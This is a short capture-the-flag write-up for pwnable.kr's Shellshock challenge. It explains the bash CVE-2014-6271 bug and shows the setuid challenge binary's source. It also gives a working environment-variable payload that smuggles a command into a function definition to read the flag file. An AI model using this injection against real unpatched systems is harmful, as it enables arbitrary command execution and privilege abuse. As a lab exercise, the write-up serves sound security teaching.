

# Shellshock - Pwnable.kr



```
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)
```

shellshock.c:
```c
#include <stdio.h>

int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

This is a reference to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability.

## How does Shellshock work?


Shellshock takes advantage of the fact that when bash loads the functions set as environment variables, the contents of the functions are executed. Thanks to a quirk in the implementation of this, bash will execute the commands in the environment variable even after the function definition is over. This means that we can execute arbitrary commands by setting them in this manner in environment variables, and then spawning a new bash shell with [bash -c](https://explainshell.com/explain?cmd=bash+-c#).

For example, this will echo "vulnerable" on an affected bash version.
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

## The code
The program is setting its UIDs and GIDs to that of the group ID of the calling process (us). This means that the program will run the program with the root permissions it has, and load our environment variables.

## Getting the flag

```
shellshock@pwnable:~$ env shocker='() { :; }; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

